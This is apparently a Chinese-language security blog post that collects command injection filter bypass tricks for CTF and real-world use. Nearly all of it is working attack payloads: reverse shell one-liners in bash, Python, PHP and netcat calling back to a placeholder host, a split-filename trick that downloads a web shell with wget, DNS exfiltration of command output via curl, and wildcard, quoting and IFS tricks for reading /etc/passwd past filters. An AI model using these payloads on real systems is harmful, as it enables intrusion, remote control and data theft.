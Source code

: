 ```yaml
---
layout: post
title: "命令注入bypass总结（长期更新）"
subtitle: "一些各种实战奇淫技巧,CTF Trick"
date: 2018-12-20
author: bPJoanna
category: security
finished: true
---
```

[TOC]

```bash
sh -c "cmd"


bash -i >& /dev/tcp/ip/port 0>&1

python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ip',port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"

php -r 'exec("bash -i >& /dev/tcp/ip/port 0>&1");'

php -r '$sock=fsockopen("ip",port);exec("/bin/bash -i <&3 >&3 2>&3");'

nc -e /bin/bash ip port


```

```bash
` & || | $()

%0a 换行符

%0d 回车符

;   连续指令

a=l;b=s;$a$b 局部变量

curl `whoami`xxxx.xxx  DNS管道解析
```



==Trick==
```bash
1>wget\
1>xxx.com.\
1>com\
1>-O\
1>she\
1>ll.p\
1>p
ls -t>a
sh a
```
> ls -t 是按照时间顺排序


http://2130706433   IP转10进制

http://0x7F000001   IP转16进制

> 转化网址：http://www.msxindl.com/tools/ip/ip_num.asp

## 通配符


```bash
/???/n? -e /???/b??h 127.0.0.1 6666

bin/nc -e /bin/bash 127.0.0.1 6666

/???/c?t /?t?/p??swd
```



```
*    代表『 0 个到无穷多个』任意字符
?    代表『一定有一个』任意字符
[ ]    同样代表『一定有一个在括号内』的字符(非任意字符)。例如 [abcd] 代表『一定有一个字符， 可能是 a, b, c, d 这四个任何一个』
[ - ]    若有减号在中括号内时，代表『在编码顺序内的所有字符』。例如 [0-9] 代表 0 到 9 之间的所有数字，因为数字的语系编码是连续的！
[^ ]    若中括号内的第一个字符为指数符号 (^) ，那表示『反向选择』，例如 [^abc] 代表 一定有一个字符，只要是非 a, b, c 的其他字符就接受的意思
```


## cat flag->


```bash
cat fla[a-z]


cat fl[a]g

cat f``lag

c’a’t /f’la’g

cat fl??

cat f*
cat $(echo -n "base64加密的flag" | base64-d)

cat `echo -n "base64加密的flag" | base64-d`

c\at /fl\ag

head /`ls /|grep 'fla'

a=c;b=at;c=fl;d=ag;$a$b $c$d
```


## 利用历史执行记录来bypass
```bash
root@kali$ cat
root@kali$ fl
root@kali$ ag

root@kali$ history
1.cat
2.fl
3.ag

root@kali$ !1!2!3
flag{ea3y_bypa3s_inj3ct1on}

```


==过滤空格的时候==

```bash
cat${IFS}flag

cat$IFS$9flag

<

``
```

%09 (需要php环境)



## 命令终止符


```
%00 %20
```

## 其他绕过

```bash
cat$u /etc$u/passwd$u

/?in/cat /?tc/p?sswd

/'b'i'n'/'c'a't' /'e't'c'/'p'a's's'w'd

/"b"i"n"/"w"h"i"c"h" "n"c

/b\i\n/w\h\i\c\h n\c


```

## 写文件

Windows


```
echo 48 65 6C 6C 6F 2C 57 6F 72 6C 64 21 >hex.txt
生成 hex.txt，机器码对应的内容是 Hallo World!
certutil -decodehex hex.txt bin.txt
也可以base64解码
certutil -decode hex.txt bin.txt
```

Linux

```bash
echo -e "\x61">1.txt
```



转自[花与海表哥](https://ctf.dog/)
